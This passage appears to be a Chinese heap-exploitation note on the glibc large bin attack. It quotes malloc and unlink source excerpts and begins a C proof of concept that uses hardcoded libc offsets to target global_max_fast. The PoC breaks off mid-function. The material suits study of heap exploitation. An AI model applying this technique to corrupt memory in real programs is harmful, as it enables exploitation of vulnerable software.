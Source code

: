 当进入unsortedbin的chunk进入largebin后，程序会在 对应的idx的bin 中按 size 升序寻找合适 chunk 来切割出所需的内存。然后按照idx++来遍历，之后该 chunk 会从 bin 中取出然后从中切下所需的内存并将剩余部分放入 unsorted bin或者smallbin 。因此最终写入 target 的值是最开始修改了 bk_nextsize 的 chunk 的地址。`  P->bk_nextsize->fd_nextsize = P->fd_nextsize;或者 BK->fd = FD;	`

```c
          bin = bin_at (av, idx);

          /* skip scan if empty or largest chunk is too small */
          if ((victim = first (bin)) != bin
	      && (unsigned long) chunksize_nomask (victim)
	        >= (unsigned long) (nb))
            {
              victim = victim->bk_nextsize;
              while (((unsigned long) (size = chunksize (victim)) <
                      (unsigned long) (nb)))
                victim = victim->bk_nextsize;
              ...
              unlink_chunk (av, victim);
			  ... // 切割 chunk 并将 chunk 的剩余部分放入 unsorted bin
            }
#define unlink(AV, P, BK, FD) {
…………

 FD = P->fd;								      \
    BK = P->bk;	
   else {								      \
        FD->bk = BK;							      \
        BK->fd = FD;	
        ……	
else {							      \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;		      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;		      \
              }		
}
```

### poc
- 加入的large chunk小于最小，改bk_nextsize
```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>

size_t getlibc()
{
    puts("getlibc");
    size_t libc_addr=puts-0x67870;
    size_t global_max_fast=libc_addr+0x39d848;
    return global_max_fast;
}

int main()
{
    size_t* chunk1=malloc(0x420);
    malloc(0x10);
    size_t* chunk2=malloc(0x410);
    malloc(0x10);   
    size_t* chunk3=malloc(0x400); // puts use
    malloc(0x10); 

    free(chunk3);  // puts use
    size_t global_max_fast_20=getlibc()-0x20;
    
    free(chunk1);
```